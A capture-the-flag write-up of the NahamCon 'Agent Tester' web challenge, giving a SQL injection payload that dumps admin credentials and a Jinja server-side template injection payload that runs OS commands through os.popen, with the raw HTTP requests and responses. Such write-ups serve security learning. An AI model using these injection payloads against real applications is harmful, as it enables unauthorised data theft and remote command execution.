 # Agent Tester

Tags:

## Challenge
>Author: @jorgectf#3896
>
>We've recently hired an entry-level web developer to build an internal system to test User Agents, let us know if you find any errors!
>
>Download the files below and press the Start button on the top-right to begin this challenge.
>
>Attachments:  agenttester.zip



## Solving

### Create new “test” account, logged in and perform SQLi to retreive admin credential
```
' union select username,password from user where username="admin" --
```




Admin credential:

```
admin:*)(@skdnaj238374834**__**=
```

### Source code analysis 

run.sh:


app.py
```
/debug only available when connected as admin
```


### Test /debug

simple query:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 9
Content-Type: application/x-www-form-urlencoded
```
response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:18:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 19
Connection: keep-alive
Vary: Cookie

<h1>Safe Debug</h1>
```

query with code variable:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 9
Content-Type: application/x-www-form-urlencoded

code=flag
```

response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:26:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 4
Connection: keep-alive
Vary: Cookie

flag
```

### Exploit /debug with SSTI (Server Side Template Injection)

query:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 109
Content-Type: application/x-www-form-urlencoded

code={{request.application.__globals__.__builtins__.__import__('os').popen('echo $CHALLENGE_FLAG').read()}}
```

resonse:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:31:32 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Cookie
Content-Length: 39

flag{fb4a87cfa85cf8c5ab2effedb4ea7006}
```

### Informations
https://hackmd.io/@Chivato/HyWsJ31dI

`flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`
